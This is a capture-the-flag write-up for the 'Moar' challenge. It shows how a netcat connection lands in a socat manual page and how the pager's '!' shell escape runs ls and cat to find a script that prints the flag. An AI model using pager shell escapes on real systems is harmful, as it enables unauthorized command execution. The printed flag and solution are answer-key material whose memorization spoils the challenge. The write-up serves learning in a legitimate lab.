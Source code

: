 ## Moar

You are given a address to connect to using netcat 

```
$ nc moar.ctfcompetition.com 1337
```

Once you connect you will be given the manual for socat. The interesting thing about this manual is that you can still put in commands near the end of it. But hurry, you'll be disconnected after a few minutes and have to reconnect using the above command.

To test this try typing the following:

```
!ls -man 
```

This results in:

```
total 76
drwxr-xr-x  21  1337  1337 4096 Oct 24 19:10 .
drwxr-xr-x  21  1337  1337 4096 Oct 24 19:10 ..
-rwxr-xr-x   1 65534 65534    0 Oct 24 19:05 .dockerenv
drwxr-xr-x   2 65534 65534 4096 Jun 14  2018 bin
drwxr-xr-x   2 65534 65534 4096 Apr 12  2016 boot
drwxr-xr-x   4 65534 65534 4096 Oct 24 19:05 dev
drwxr-xr-x  44 65534 65534 4096 Oct 24 19:05 etc
drwxr-xr-x   3 65534 65534 4096 Jun 14  2018 home
drwxr-xr-x   8 65534 65534 4096 Sep 13  2015 lib
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 lib64
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 media
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 mnt
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 opt
dr-xr-xr-x 110 65534 65534    0 Apr 15 00:24 proc
drwx------   2 65534 65534 4096 Apr 17  2018 root
drwxr-xr-x   5 65534 65534 4096 Apr 17  2018 run
drwxr-xr-x   2 65534 65534 4096 Apr 27  2018 sbin
drwxr-xr-x   2 65534 65534 4096 Apr 17  2018 srv
drwxr-xr-x   2 65534 65534 4096 Feb  5  2016 sys
drwxrwxrwt   2  1337  1337   40 Apr 15 00:24 tmp
drwxr-xr-x  10 65534 65534 4096 Apr 17  2018 usr
drwxr-xr-x  11 65534 65534 4096 Apr 17  2018 var
!done  (press RETURN)
```

Great, so let's browse around! Let's check the home file.

```
!ls -man home
total 12
drwxr-xr-x  3 65534 65534 4096 Jun 14  2018 .
drwxr-xr-x 21  1337  1337 4096 Oct 24 19:10 ..
drwxr-xr-x  2 65534 65534 4096 Jun 29  2018 moar
!done  (press RETURN)
```

Okay, the 'moar' directory definitely seems important. Let's check that directory out.

```
!ls -man home/moar
total 24
drwxr-xr-x 2 65534 65534 4096 Jun 29  2018 .
drwxr-xr-x 3 65534 65534 4096 Jun 14  2018 ..
-rw-r--r-- 1 65534 65534  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 65534 65534 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 65534 65534  655 May 16  2017 .profile
-r-xr-xr-x 1 65534 65534  695 Jun 26  2018 disable_dmz.sh
!done  (press RETURN)
```
Hmm, what's this disable_dmz shell? let's try to read it.

```
!cat home/moar/disable_dmz.sh
#!/bin/sh

# Copyright 2018 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
!done  (press RETURN)
```

Ah, that's where the flag is hiding! 

